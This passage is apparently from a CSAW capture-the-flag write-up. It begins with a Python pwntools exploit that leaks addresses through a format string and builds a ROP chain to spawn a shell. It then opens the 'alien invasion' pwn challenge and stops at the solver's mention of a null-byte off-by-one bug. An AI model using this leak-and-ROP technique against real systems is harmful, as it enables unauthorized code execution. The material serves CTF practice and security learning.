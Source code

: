 ```python
#update("7" * 70 + "31" + "21" * 0x100 + "9")
update("2A" * 68 + "9")
execute()

prog_addr = (u64(status() + "\x00\x00") - 0xAB0)
print hex(prog_addr)
trigger = "7" * 70 + "31" + "9"
update(make_format("%11$s") + trigger)
leak = execute(p64(prog_addr + 0x202018), True) #puts

libc_addr = u64(leak + "\x00\x00") - 0x6f690
print hex(libc_addr)

rop_start = libc_addr + 0x10a407 # add rsp, 0x40 ; ret
pop_rax_ret = libc_addr + 0x33544
pop_rdi_ret = libc_addr + 0x21102
pop_rsi_ret = libc_addr + 0x202e8
pop_rdx_ret = libc_addr + 0x1b92

rop = p64(pop_rax_ret) + '\x3b'.ljust(8, '\x00')# bug? p64(59) #execve 
rop += p64(pop_rdi_ret) + p64(libc_addr + 0x18CD57) #/bin/sh
rop += p64(pop_rsi_ret) + p64(0)
rop += p64(pop_rdx_ret) + p64(0)
rop += p64(libc_addr + 0xF725E) #syscall

update(make_payload("2019" + "A" * 64 + p64(rop_start)) + trigger)
execute('A' * 0x10 + rop)

sh.interactive()
```

## 400 Pwn / alien invasion ##

**Description**

> Construct additional pylons
> 
> `nc pwn.chal.csaw.io 9004`
> 
> Binary updated: 8:17 AM Sat
> 
> Libc updated: 4:09 PM Sat

**Files provided**

 - [`aliensVSsamurais`](files/alien-invasion-aliensVSsamurais)
 - [`libc-2.23.so`](files/alien-invasion-libc-2.23.so)

**Solution** (by [Mem2019](https://github.com/Mem2019))

The sumurai part seems to be unexploitable, but there is a null byte off-by-one when we call `new_alien`
